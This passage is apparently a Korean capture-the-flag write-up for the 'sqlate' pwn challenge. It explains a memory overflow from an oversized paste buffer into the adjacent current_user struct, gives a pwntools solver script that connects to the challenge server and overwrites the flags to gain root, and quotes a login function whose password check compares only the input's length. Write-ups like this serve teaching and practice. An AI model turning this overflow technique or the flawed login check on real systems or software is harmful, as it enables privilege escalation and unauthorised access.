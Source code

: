 `action_list`는 `sql`에 있던 글들을 `paste`에 옮겨 `print_paste` 함수를 통해 출력합니다. 이 때 `content` 영역의 내용이 위의 `action_update` 함수에 의해 최대 384바이트가 되어 메모리 오버플로우(memory overflow)가 발생합니다. `paste`와 `current_user`가 붙어있기 때문에 `current_user`의 `flag`를 덮을 수 있습니다. 이렇게 사용자에게 `permission_root`를 부여하고 `flag`를 읽습니다.

<br>
- 솔버

```python
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']

#p = process('./vuln')
p = remote('sqlate.chal.irisc.tf', 10000)

p.sendlineafter(b'> ', b'1')
p.sendlineafter(b': ', b'csh')
p.sendlineafter(b': ', b'csh')
p.sendlineafter(b': ', b'csh')

p.sendlineafter(b'> ', b'2')
p.sendlineafter(b'>', b'2')
p.sendlineafter(b'>', b'2')
p.sendlineafter(b': ', b'\xfe' * 192 + b'\x00')
p.sendlineafter(b': ', b'csh')
p.sendlineafter(b'>', b'4')
p.sendlineafter(b'>', b'7')
p.interactive()
```

<br>
- 후일담

```C
void action_login()
{
    // Currently only admin login
    read_to_buffer("Password?");
    unsigned long length = strlen(line_buffer);
    for (unsigned long i = 0; i < length && i < 512; i++)
    {
        if (line_buffer[i] != admin_password[i])
        {
            printf("Wrong password!\n");
            return;
        }
    }

    strcpy(current_user.username, "admin");
    current_user.userId = 0;
    current_user.flags = 0xFFFFFFFF;
}
```
